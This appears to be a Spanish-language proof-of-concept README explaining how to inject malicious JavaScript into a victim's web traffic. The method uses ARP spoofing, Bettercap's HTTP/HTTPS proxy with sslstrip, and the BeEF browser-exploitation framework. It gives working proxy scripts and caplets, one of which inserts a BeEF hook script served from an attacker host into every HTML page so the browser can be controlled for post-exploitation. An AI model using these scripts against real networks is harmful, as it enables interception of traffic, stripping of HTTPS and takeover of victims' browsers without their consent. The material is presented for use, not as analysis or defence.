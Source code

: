 # POC: Inyectar Javascript malicioso

Javascript es un lenguaje de programación utilizado en programación web que se ejecuta de lado del cliente, es decir, cualquier acción realizada en Javascript tendrá un reflejo en los equipos de aquellas personas que visiten la página web.

Aprovechando esta caracterísitca de Javascript podemos inyectar un fichero Javascript (que contiene código malicioso) dentro de las peticiones HTTP para poder realizar diferentes acciones ([como minar criptomonedas](https://www.europapress.es/portaltic/internet/noticia-the-pirate-bay-utiliza-cpu-usuarios-deshacerse-anuncios-mineria-criptomoneda-20170918140205.html))

## Inyección de Javascript

Para poder inyectar Javascript dentro de las peticiones, tendremos que realizar un ataque de arp spoofing, de forma que podemos realizar tratamiento de dichos paquetes.

Posteiormente lo que tenemos que realizar es montar un proxy http/https, de forma que todas las peticiones de nuestro objetivo pasen por este y queden infectadas.

Para poder modificar las peticiones usaremos el proxy http de bettercap. En primer lugar usaremos un código Javascript de ejemplo.

```
function onLoad(){
   log("Script loaded..");
}

function onResponse(req,res){
 
 if (res.ContentType.indexOf('text/html') == 0){
 
 	var body = res.ReadBody();
 
	 res.Body = body.replace(
	 '</head>',
	 '<script type="text/javascript">alert(\"@cyberh99 wa    s here\")</script></head>'
	 );
	}
 
}        
```
[injectionJS.js]()

Este código Javascript realiza una acción muy sencilla, se encarga de reemplarar la etiqueta _head_ del código html de cualquier página agregando una sencilla ventana que dice "@cyberh99 was here". Con esto podemos comprobar como funcionala inyección de Javascript.

Dentro del código encontramos dos funciones, las cuales _tienen que estar para el funcionamiento del script_, estas tienen la siguiente relevancia:

* onLoad() --> Se ejecuta cuando el script se cargca
* onResponse(req,res) --> Se ejecuta una vez se envía el paquete al servidor real y se recibe respuesta

Una vez que tenemos el código Javascript malicioso simplemente crearemos nuestro caplet para ejecutar Bettercap:

```
set http.proxy.script injectionJS.js
set https.proxy.script injectionJS.js

set http.proxy.sslstrip true
set https.proxy.sslstrip true

http.proxy on
https.proxy on

```
[injectionTest.cap]()

## Beef: Browser Explotation Framework

El código Javascript que hemos inyectado es muy simple, para una mera demostración, sin embargo, podemos hacer cosas mucho más complejas, un ejemplo de ello es Beef.

Beef (Browser Explotation Framework) es una herramienta que nos ofrece la opción de infectar diferentes navegadores con código javascript, de forma que podamos realizar acciones sobre la máquina infectada. Este framework puede estar conectado con Metasploit o ser utilizado para ingenieria social.

Para poder inyectar el códgio javascript de beef utilizaremos el siguiente código:

```javascript
function onLoad() {
    log( "BeefInject loaded." );
    log("targets: " + env['arp.spoof.targets']);
}

function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script type="text/javascript" src="http://10.0.2.15:3000/hook.js"></script></head>' 
            ); 
        }
    }
}
```
[beefJavascript.js]()

```
set http.proxy.script beefJavascript.js
set https.proxy.script beefJavascript.js

set http.proxy.sslstrip true
set https.proxy.sslstrip true

http.proxy on
https.proxy on
```
[beefInjection.cap]()

Posteriormente disponemos de todo el potencial que nos ofrece beef para realizar acciones de post explotación.

